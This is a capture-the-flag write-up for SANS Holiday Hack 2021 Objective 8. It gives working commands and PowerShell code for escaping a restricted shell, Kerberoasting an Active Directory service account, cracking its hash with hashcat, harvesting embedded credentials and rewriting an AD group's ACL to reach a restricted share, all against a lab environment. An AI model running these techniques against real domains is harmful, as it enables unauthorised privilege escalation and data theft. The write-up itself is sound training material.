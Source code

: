 <h1 id="objective-8-kerberoasting-on-an-open-fire">Objective 8: Kerberoasting on an Open Fire</h1>
<p><strong>Location: Staging</strong><br>
<strong>Elf: Jingle Ringford</strong><br>
<strong>Hints provided by Eve Snowshoes after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/HoHo...No.md">HoHo … No</a></strong></p>
<p>The objective to obtain a secret research document.<br>
In order to get an account in the ELFU AD domain, a registration on <a href="https://register.elfu.org">https://register.elfu.org</a> is required.<br>
After that an individual username and password is provided which can be used to logon to <a href="http://grades.elfu.org">grades.elfu.org</a> using SSH on port 2222.</p>
<h3 id="escaping-application">Escaping Application</h3>
<p>After the SSH login an application is automatically started.<br>
It is possible to escape this application by sending an EOF (CTRL-D).</p>
<h3 id="escaping-python-shell">Escaping Python Shell</h3>
<p>After this a Python shell is displayed.<br>
In order to escape this <code>os.system.("bash")</code> has to be submitted in order to get to a normal Unix shell.</p>
<h3 id="reconnaissance">Reconnaissance</h3>
<p>An nmap scan of the network 10.128.0.0/22 two hosts providing Windows services: 10.128.1.53 (domain controller) and 10.128.3.30 (samba file server) with the shares <code>elfu_svc_shr</code> and <code>research_dep</code>.</p>
<h3 id="pulling-data-from-ad">Pulling data from AD</h3>
<p>Next the tool <code>ldapdomaindump</code> can be used in order to get an idea of the user&lt;-&gt;group&lt;-&gt;permission structure:</p>
<pre><code>ldapdomaindump 10.128.1.53 -u 'elfu\{userid}' -p '{password}'
</code></pre>
<p>This can be done manually or using Bloodhound.<br>
Bloodhound also reveals that the user <code>elfu_svc</code> is Kerberoastable.</p>
<p>The password hash for this Kerberoastable user can be obtained by running</p>
<pre><code>GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 'elfu.local/{userid}:{passworð}' -request
</code></pre>
<h3 id="cracking-the-password">Cracking the Password</h3>
<p>We follow the hints and prepare the password cracking as follows:<br>
We prepare a password list using CeWL, keeping in mind that explicitly also digits are valid as per the provided hint:</p>
<pre><code>./cewl.rb https://register.elfu.org/register --with-numbers -w wordlist
</code></pre>
<p>In addition, also following the hint, the OneRuleToRuleThemAll rule for Hashcat is downloaded:</p>
<pre><code>curl -OJ https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
</code></pre>
<p>Equipped with these tool, we can let Hashcat crack the password:</p>
<pre><code>hashcat -m 13100 -a0 spn.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist
</code></pre>
<p>Hashcat find the password for <code>elfu_svc</code> to be <code>Snow2021!</code>.</p>
<h3 id="access-to-elfu_svc_shr">Access to elfu_svc_shr</h3>
<p>With this information we can get access to the elfu_svc_shr file share in 10.128.3.30:</p>
<pre><code>smbclient -U elfu_svc '\\10.128.3.30\elfu_svc_shr'
</code></pre>
<p>On this share are several Powershell scripts. One of them, <code>GetProcessInfo.ps1</code> holds credentials for the <code>user remote_elf</code>:</p>
<pre><code>$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
</code></pre>
<h3 id="getting-into-group-research-department">Getting into group Research Department</h3>
<p>With the <code>remote_elf</code> credential snippet from the script, we can grant our windows domain user the <code>GenericAll</code> permissions for the group Research Department:</p>
<pre><code>Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "{userid}"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
</code></pre>
<p>and add then our user to this group:</p>
<pre><code>Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "ptsuxvdegy"
$password = "Scumpfccr#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://&lt;SID=$hexSID&gt;")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()

} -Credential $aCred -Authentication Negotiate
</code></pre>
<h3 id="access-to-research_dep-share">Access to research_dep share</h3>
<p>After a few minutes, our new group membership gets replicated to the samba file server, so that we now have access to the secret document:</p>
<pre><code>smbclient '\\10.128.3.30\research_dep'
smb: \&gt; dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available

</code></pre>
<p>The <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/SantaSecretToAWonderfulHolidaySeason.pdf">PDF document</a> lists <strong>Kindness</strong> as first secret ingredient for a wonderful holiday season.</p>
<h3 id="bonus-kerberoboting">Bonus: Kerberoboting</h3>
<p>This whole process was automated in an <code>expect</code> script named <code>kerberoboting</code>, so that you can enjoy a brew whilst your computer does the work.<br>
It just requires you to register at <a href="https://register.elfu.org">https://register.elfu.org</a>, have <code>hashcat</code> installed in the PATH and a working CeWL in the local directory:</p>
<pre><code>joergen@northpole:~$ ./kerberoboting jsfdgdsjjl 'Ndcopkmbo#'
#
# Kerberoboting in progress - get a brew and lean back
#

Retrieving the wordlist from register.elfu.org using CeWL
Retrieving the OneRuleToRuleThemAll rule for Hashcat
Logging on to grades.elfu.org using SSH
Escaping the application using &lt;EOF&gt;
Escaping the Python shell using os.system('bash')
These shares are available on the file server
smbclient -L '\\\\10.128.3.30'
Enter WORKGROUP\jsfdgdsjjl's password: 

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      
	sysvol          Disk      
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
Running GetUserSPNs.py using my user id to enumerate SPNs linked to user accounts and get their password hashes
Running Hashcat to crack the password
  ok. Password is Snow2021!
Getting access to samba \\\\10.128.3.30\elfu_svc_shr share as user elfu_svc
Obtaining file GetProcessInfo.ps1 which has credentials for remote_elf embedded
Granting myself GenericAll permissions on AD group Research Department and adding myself to it
Getting access to samba \\\\10.128.3.30\research_dep using my user id
dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
smb: \\&gt; Getting file SantaSecretToAWonderfulHolidaySeason.pdf
Transferring file SantaSecretToAWonderfulHolidaySeason.pdf to local machine

#
# Have fun and explore more
#

jsfdgdsjjl@grades:~$ 
</code></pre>
<p><strong>Achievement: Kerberoasting on an Open Fire</strong></p>

